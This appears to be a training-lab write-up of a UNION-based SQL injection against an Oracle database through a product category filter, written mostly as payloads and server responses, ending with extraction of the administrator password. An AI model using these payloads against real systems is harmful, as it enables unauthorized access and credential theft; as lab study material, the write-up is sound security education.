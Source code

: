 # SQL injection, listing the database contents on Oracle

### Goal:
`Log in to the application as the administrator user`
### Info: The injection point is the product category filter
`target.com/filter?category=<input>`
### Info: The target is using a Oracle database
### Note: Table names, column names, and the password contain randomized characters. If the lab for any reason, these names will be regenerated.
<br><br>

**<ins>Step 1: Test injection point</ins>**

category='

`500: server error`<br><br>

category='--

`200`
<br><br>

**<ins>Step 2: Enumerate data output with UNION attack</ins>**

category='UNION SELECT NULL FROM DUAL--

`500 server error`<br><br>

category='UNION SELECT NULL,NULL FROM DUAL--

`200`

This means that the query outputs two values
<br><br>

category='UNION SELECT 'a','b' FROM DUAL--

`200`

This means that both values are strings. Knowing this, we can use either to output the desired data.<br><br>

**<ins>Step 3: Enumerate database with UNION attack</ins>**

category='UNION SELECT banner,NULL FROM v$version--

`Oracle Database 11g Express Edition Release 11.2.0.2.0`

We already knew the database was Oracle, but it is good practice to check the database version in case it is outdated.<br><br>

 **<ins>Step 4: Enumerate database structure with UNION attack</ins>**

 category='UNION SELECT table_name,NULL from all_tables--

 `USERS_XXXXXX`

This table likely contains the information we're looking for, so we'll look at its columns.<br><br>

category='UNION SELECT column_name,NULL from all_tab_columns WHERE table_name='USERS_XXXXXX'--

`USERNAME_XXXXXX, PASSWORD_XXXXXX`

This is the data we need!<br><br>

**<ins>Step 5: Exfiltrate the data</ins>**

category='UNION SELECT PASSWORD_XXXXXX,NULL FROM USERS_XXXXXX WHERE USERNAME_XXXXXX='administrator'--

`<password>`

Using this password with the username administrator will successfully log us in as the admin.
